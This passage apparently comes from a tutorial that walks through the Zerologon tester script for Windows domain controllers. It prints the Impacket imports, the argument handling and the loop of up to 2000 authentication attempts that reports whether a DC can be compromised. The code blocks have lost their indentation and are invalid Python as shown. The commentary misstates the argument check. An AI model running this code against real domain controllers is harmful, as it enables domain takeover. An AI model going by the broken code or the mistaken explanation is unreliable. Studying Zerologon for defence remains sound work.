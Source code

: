 ```py
from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call
MAX_ATTEMPTS = 2000
```

Lines 1-4 import the required modules from Impacket, specifically the NRPC, EPM, Crypto, and Transport libraries. Additionally, on lines 6-8 a handful of other misc libraries are also imported, however, the Impacket libraries are the star of the show here. Lastly, on line 9, we're defining a constant (similar to a variable, but never changes) that sets the maximum number of retries for Zero Logon to 2000.

**Lines 76 - 86**

```py
if __name__ == '__main__':
    if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
    else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```

Next we skipped down to the very bottom of the script so some other variables will make sense later, Line 1 is essentially declaring a main function within Python, Line 2 we are checking for the amount of parameters, and ensuring that it's exactly 3 (zerologon_tester.py DCNAME IP). Lines 3-5 are printing the help menu only if it's greater than 3 arguments, or less than 2 and exiting. If the required arguments are supplied, on line 8 the arguments are being passed into two variables: dc_name, and dc_ip. After the arguments are passed, dc_name is being stripped of the "$" character, as the dc_name variable shouldn't have it. The user account name should however. Afterwards, it's passing the variables two variables and an additional, modified variable into a module called "perform_attack".

**Lines 57 - 73**

```py
def perform_attack(dc_handle, dc_ip, target_computer):

    print('Performing authentication attempts...')
    rpc_con = None
    for attempt in range(0, MAX_ATTEMPTS):
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)

    if rpc_con == None:
        print('=', end='', flush=True)
    else:
        break

    if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
    else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)
```
